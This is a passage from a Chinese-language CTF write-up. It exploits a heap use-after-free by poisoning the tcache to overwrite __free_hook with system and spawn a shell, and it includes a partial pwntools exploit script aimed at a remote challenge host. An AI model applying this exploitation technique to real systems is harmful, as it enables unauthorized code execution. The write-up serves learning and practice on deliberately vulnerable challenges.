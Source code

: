 ```bash
0x602130 <items+144>:   0x0000000000000000      0x0000000000000000

```
接着Delete(5)(理论上除了1st，随便一个item都是可以的)，Delete(1)，Edit(14, "d", free_hook)，如下，
```
(0x20)   tcache_entry[0](100): 0x13ff350 --> 0x7f70a0b9cb28(__free_hook)
```
由于1st chunk删除后，14st chunk仍能对其进行修改，所以可用edit功能对14st编辑可将tcache中1st chunk的fd修改为free_hook。
再逐一将其申请出来，可以将`/bin/sh`写入到14st chunk的price处，add 15st chunk修改free_hook为system。此时free(14)即可调用system，14st chunk的price部分会被当做参数，从而获取shell。
```
# Write system address in __free_hook
Add("e", u64("/bin/sh\x00"))   # 14
Add("f", system_addr) # 15

# Start shell
Delete(14) 
```
## exp
```python
# ubuntu20。04 libc-2.31.so
from pwn import *

#context(os='linux', arch='amd64')
context.log_level = 'debug'
context.terminal = ['/usr/bin/tmux','sp','-h']

BINARY = './chall'
elf  = ELF(BINARY)

if len(sys.argv) > 1 and sys.argv[1] == 'r':
  HOST = "103.152.242.242"
  PORT = 39221
  s = remote(HOST, PORT)
  libc = ELF("./libc-2.27.so")
else:
  s = process(BINARY)
  libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
  #ibc = elf.libc

def Add(data, price):
  s.sendlineafter("> ", "1")
  s.sendlineafter("name: ", data)
  s.sendlineafter("price: ", str(price))

def Delete(idx):
  s.sendlineafter("> ", "2")
  s.sendlineafter("): ", str(idx))

def Edit(idx, data, price):
  s.sendlineafter("> ", "3")
  s.sendlineafter("): ", str(idx))
  s.sendlineafter("name: ", data)
  s.sendlineafter("price: ", str(price))

def List():
  s.sendlineafter("> ", "4")

def Sell(idx, item):
  s.sendlineafter("> ", "5")
  s.sendlineafter("): ", str(idx))
  s.sendlineafter("item?\n", item)

```